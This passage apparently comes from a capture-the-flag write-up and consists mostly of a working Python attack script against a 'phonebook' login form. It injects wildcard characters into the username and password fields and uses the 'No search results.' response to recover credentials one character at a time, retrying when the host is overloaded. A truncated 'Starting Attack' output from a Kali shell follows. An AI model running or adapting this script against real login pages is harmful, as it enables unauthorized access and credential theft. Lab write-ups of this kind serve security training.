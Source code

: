                     usr_character = chr_selector(track)

                elif cred_to_find == "passwd":

                    pass_character = chr_selector(track)


                r_ = requests.post(url, data={"username":user_name+usr_character+"*", "password":passwd+pass_character+"*"})


                if  (r_.status_code == 200) and ("No search results." in r_.text):

                    user_name+=usr_character
                    passwd+=pass_character

                    r = requests.post(url, data={"username":user_name+validate_usr, "password":passwd+validate_pass})

                    track=0

                    print(f"Partially valid --> USERNAME : {user_name.replace('*', '')} | PASSWORD : {passwd.replace('*', '')}")

                    if (r.status_code == 200) and ("No search results." in r.text):
                        print(f"valid --> USERNAME : {user_name} | PASSWORD : {passwd}")

                        break


                    else:
                        track+=1

                else:
                    #print(f"Invalid --> USERNAME : {user_name+usr_character} | PASSWORD : {passwd+pass_character}") # For testing purpose
                    track+=1

            except KeyboardInterrupt:
                exit()

            except:

                # If the host is not available due to excessive brutefore attack
                # then it will wait some time to send another request
                wait=5
                time.sleep(wait)
                print(f"\nCouldn\'t able to reach {url}   |  Waiting for {wait} seconds\n")


    print("Starting Attack\n")

    #cred_finder('user_name') # Find the Username
    cred_finder('passwd') # Find the Passwd

### Script output

    ┌──(kali㉿kali)-[~]
    └─$ python3 phonebook-script.py
    Starting Attack
